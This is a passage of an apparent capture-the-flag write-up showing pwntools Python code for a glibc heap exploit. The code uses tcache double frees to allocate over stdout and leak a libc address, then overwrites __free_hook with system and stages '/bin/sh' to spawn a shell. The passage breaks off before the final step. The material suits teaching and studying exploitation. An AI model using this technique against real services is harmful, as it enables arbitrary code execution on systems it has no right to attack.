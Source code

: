 ``` python
        do_malloc(0, 0x60, "\xd0")      # Target address (address of the unsorted bin chunk)
        do_malloc(1, 0x60, "Hallo")     # Popping chunk from freelist
        do_malloc(2, 0x60, "\x60\x57")  # overwriting the 2 least significant bytes of the libc address


        # Now allocating a fake chunk at target address

        do_free(1)                  # Same as above
        do_free(1)
        do_free(1)

        do_malloc(1, 0x60, "\xd0")      # LSB OF unsorted bin chunk
        do_malloc(3, 0x60, "Hallo2")    # BURN
        do_malloc(4, 0x60, "\x60\x57")  # BURN AGAIN 


        # At this point our crafted address is the next chunk to be returned by malloc

        payload = p64(0x0fbad1800)  
        payload += '\0' * 0x18 
        payload += '\0'

        leak = do_malloc(5, 0x60, payload)   # overwriting stdio with junk
        if len(leak) > 200:
            break
        io.close()
    except:
        io.close()
        pass

if GDB_OPT:
    gdb.attach(io)


# At this point we've leaked the address of libc
io.info(" ========== LEAK ==========\n" + leak)
io.info("(Hex : " + leak.encode("hex") + ")")

libc_base = u64(leak[8:16]) - 0x3ed8b0
io.info(hex(libc_base))
```
Now the part that I've thoroughly explained is over.
But now hijacking the control-flow is straightforward.

On every invocation of free it internally calls the *\__free_hook* with the chunk as its first argument. With our arbitrary allocations we force malloc to return us a chunk there and overwrite it with either a gadget or with the address of system and the program we want to execute ("/bin/sh") as its argument (the chunk we free).

``` python
# now we'll overwrite the free_hook with system

io.info("Calculating offsets:")
libc.address = libc_base
free_hook_addr = libc.sym.__free_hook
io.info("__free_hook @ " + hex(free_hook_addr))

do_free(9)  # I guess you've seen this before
do_free(9)
do_free(9)

do_malloc(9, 0x20, p64(free_hook_addr))     # Now with full addresses
do_malloc(6, 0x20, "/bin/sh\n\0")           # argument to be called by system
```
